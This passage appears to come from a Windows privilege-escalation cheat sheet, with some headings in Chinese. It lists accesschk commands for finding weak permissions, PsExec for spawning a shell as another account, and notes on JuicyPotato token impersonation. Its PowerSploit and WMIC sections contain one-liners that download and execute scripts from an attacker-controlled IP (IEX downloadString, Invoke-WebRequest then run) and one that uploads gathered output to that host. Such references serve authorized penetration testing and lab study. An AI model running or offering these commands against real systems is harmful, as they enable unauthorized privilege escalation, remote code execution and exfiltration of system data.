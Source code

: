     C:\> accesschk.exe -ucqv {{Service name: Spooler}}
    C:\> accesschk.exe -ucqv * # see all the permissions

    # "Authenticated Users", "Power Users" etc your user group
    C:\> accesschk.exe -uwcqv "Authenticated Users" *

    # Find all weak folder permissions per drive.
    C:\> accesschk.exe -uwdqs Users c:\
    C:\> accesschk.exe -uwdqs "Authenticated Users" c:\

    # Find all weak file permissions per drive.
    C:\> accesschk.exe -uwqs Users c:\*.*
    C:\> accesschk.exe -uwqs "Authenticated Users" c:\*.*
    ```
    * #### cacls
### PsExec
拿到某個帳號的權限(測試用)
用高權限的 shell 執行
```
.\PsExec64.exe -i -u "nt authority\local service" cmd.exe
```
## [JuicyPotato](https://github.com/ohpe/juicy-potato.git)
`whoami /priv` have `SeImpersonate` and/or `SeAssignPrimaryToken` enable
> Windows Server 2019 is not affected by this vulnerability.
> Other versions of Windows (Server 2008R2, Server 2012, Server 2012 R2, Server 2016) are affected.

# Information Gathering
## Scripts

### PowerSploit/Privesc
[GitHub](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
```
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .

PS C:\Windows\system32> IEX(New-Object Net.WebClient).downloadString("http://10.10.14.42/PowerUp.ps1")                   
PS C:\Windows\system32> Invoke-AllChecks                                   
```

### Windows Management Instrumentation Command-Line
```
Invoke-WebRequest -Uri "http://10.10.14.42/wmic_info.bat" -OutFile wmic_info.bat
.\wmic_info.bat
Invoke-WebRequest -uri "http://10.10.14.42/out.html" -Method Put -Infile ".\out.html" -ContentType 'text/plain' 
```
